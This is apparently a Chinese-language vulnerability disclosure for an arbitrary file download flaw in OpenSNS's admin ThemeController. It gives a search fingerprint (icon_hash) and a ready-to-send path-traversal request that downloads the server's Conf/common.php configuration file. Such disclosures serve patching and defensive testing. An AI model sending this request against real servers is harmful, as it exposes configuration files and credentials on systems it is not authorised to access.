


# OpenSNS ThemeController.class.php 后台任意文件下载漏洞

## 漏洞描述

OpenSNS ThemeController.class.php文件中存在文件下载，其中过滤不足导致可以下载服务器任意文件

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下


存在漏洞的文件为 `Application/Admin/Model/ThemeController.class.php`

	

其中 theme参数为用户可控参数，根据函数流程可以发现存在的文件将会打包为 zip文件提供下载



构造请求

```php
POST /admin.php?s=/theme/packageDownload

theme=../Conf/common.php
```

